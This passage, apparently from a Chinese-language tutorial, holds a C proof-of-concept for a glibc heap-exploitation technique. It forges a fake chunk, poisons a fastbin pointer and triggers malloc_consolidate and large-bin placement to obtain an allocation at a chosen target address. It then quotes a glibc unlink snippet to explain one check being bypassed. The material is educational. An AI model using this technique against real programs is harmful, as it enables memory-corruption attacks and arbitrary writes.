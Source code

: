 ```c
    free(a);


    /*申请两个堆块，一个fastbins大小 ，一个smallbin大小*/
    printf("\033[1;33m此时申请一个fast chunk，一个small chunk为后续利用作铺垫:\033[0m\n");
    a=malloc(0x10);
    b=malloc(0x80);
    printf("fast chunk a: %p\n",a-2);
    printf("small chunk b: %p\n\n",b-0x10);
    
    /*
    用来链入large bin的fake chunk,注意从buf[1]~buf[5]是我们的fake chunk
    buf[0]是为了绕过_int_malloc中的检测，
    buf[7]是为了绕过_int_free时调用的consolidate的检测。
    */
    buf[0]=0xfffffffffffffff0;/*在检测中会用size+buf[2] 与size 比较，结果为0才能正确绕过*/
    buf[1]=0x0;
    buf[2]=0;
    buf[3]=0x21;
    buf[4]=0;
    buf[5]=0;
    buf[6]=0;
    buf[7]=1;  /*绕过malloc_consolidate 中的unlink操作*/
    printf("\033[1;33m伪造一个fake chunk，并为绕过一些检测，在某些地方埋伏笔\033[0m\n");
    printf("这是fake chunk--buf[2]的地址: %p\n",buf+2);
    printf("这是目标target的地址: %p\n",target);
    printf("\033[1;33m为了绕过检测而提前作的准备:\033[0m;\n");
    printf("buf[2]-0x10: %#lx\n",buf[0]);
    printf("buf[2]+0x28: %#lx\n",buf[7]);
    printf("buf[2]的size: %#lx\n\n",buf[3]);

    /*把a 放入fastbins ,把buf链入fastbin*/
    printf("\033[1;33m先free a,在通过修改a的fd，把buf[2]链入，随后free b触发:\033[0m\n");
    free(a);
    *a=(size_t)(&buf[2]);
    /*触发malloc_consolidate*/
    free(b);

    /*申请大堆块把buf放进largebin，修改buf size*/
    printf("\033[1;33m先修改buf 的size，使其可以被放入large bin中:\033[0m\n");
    buf[3]=0xa00001;
    b=malloc(0xa00000);
    printf("buf[2]的size: %#lx\n\n",buf[3]);
    /*再次修改size*/
    printf("\033[1;33m把buf 的size 修改为很大，使得可以分配到我们的target：\033[0m\n");
    buf[3]=0xfffffffffffffff1;
    /**/
    c=malloc(0xffffffffffffff80);
    d=malloc(0x10);
    printf("分配到的d:%p\n",d);
    printf("target: %p\n",target);
    return 0;
}
```
## 为什么fakechunk 后要设置1？
```c
if (!nextinuse) {
	      size += nextsize;
	      unlink(av, nextchunk, bck, fwd);
	    } else
	      clear_inuse_bit_at_offset(nextchunk, 0);
```